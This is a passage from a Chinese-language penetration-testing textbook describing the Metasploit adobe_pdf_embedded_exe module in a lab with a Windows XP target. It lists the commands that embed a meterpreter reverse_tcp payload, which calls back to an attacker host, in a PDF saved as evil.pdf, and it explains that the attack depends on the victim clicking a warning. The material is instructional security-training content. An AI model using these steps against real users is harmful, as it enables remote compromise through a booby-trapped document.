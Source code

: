 该模块允许我们通过`EXENAME` ❶选项指定一个预构建的可执行文件。如果我们不设置此选项，我们可以嵌入一个从我们选择的任何有效载荷创建的.*exe*文件。我们还可以将文件名更改为任何我们喜欢的名字，或者保持默认值 ❷不变。要使用此模块，我们必须使用一个输入 PDF 来设置`INFILENAME` ❸选项。`LAUNCH_MESSAGE` ❹选项是将显示给用户的文本，作为运行可执行文件的提示。

设置相关选项，如示例 10-14 所示。

示例 10-14. 设置模块选项并创建恶意 PDF

```
msf  exploit(adobe_pdf_embedded_exe) > **set INFILENAME** **/usr/share/set/readme/User_Manual.pdf**❶
INFILENAME => /usr/share/set/readme/User_Manual.pdf
msf  exploit(adobe_pdf_embedded_exe) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(adobe_pdf_embedded_exe) > **set LHOST 192.168.20.9**
                                                                             LHOST => 192.168.20.9
msf  exploit(adobe_pdf_embedded_exe) > **exploit**

[*] Reading in '/usr/share/set/readme/User_Manual.pdf'...
[*] Parsing '/usr/share/set/readme/User_Manual.pdf'...
[*] Using 'windows/meterpreter/reverse_tcp' as payload...
[*] Parsing Successful. Creating 'evil.pdf' file...
[+] evil.pdf stored at /root/.msf4/local/evil.pdf❷
```

我们将使用 Kali Linux 附带的 PDF 作为示例：Metasploit 用户指南，位于*/user/share/set/readme/User_Manual.pdf* ❶。生成的 PDF 将再次存储在*/root/msf4/local/*目录中 ❷。（在 Windows XP 目标上打开 PDF 之前，请确保使用*multi/handler*模块设置好负载处理程序。若需要复习，请参见示例 10-11。）

### 注意

之前的漏洞利用可能已将 Adobe Reader 置于不良状态，因此你可能需要重启 Windows XP，以便它正确加载新的 PDF。

当恶意 PDF 被打开时，用户会看到类似图 10-1 所示的警告。用户必须点击“打开”以便嵌入的可执行文件运行。此攻击依赖于用户愿意点击此警告。

![PDF 嵌入式可执行文件用户警告](img/httpatomoreillycomsourcenostarchimages2030396.png.jpg)图 10-1. PDF 嵌入式可执行文件用户警告
